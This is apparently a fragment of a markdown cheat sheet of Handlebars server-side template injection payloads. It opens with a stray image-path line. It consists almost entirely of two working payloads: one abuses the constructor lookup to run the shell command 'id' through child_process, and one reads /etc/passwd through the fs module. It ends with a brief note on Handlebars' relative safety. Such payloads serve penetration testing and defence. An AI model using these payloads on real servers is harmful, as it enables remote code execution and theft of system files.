 ```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('id')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## File Read Payload

For reading files:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('fs').readFileSync('/etc/passwd', 'utf8')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## Important Notes

1. Handlebars is generally safer than other template engines like Pug or EJS because it doesn't evaluate JavaScript expressions by default.
    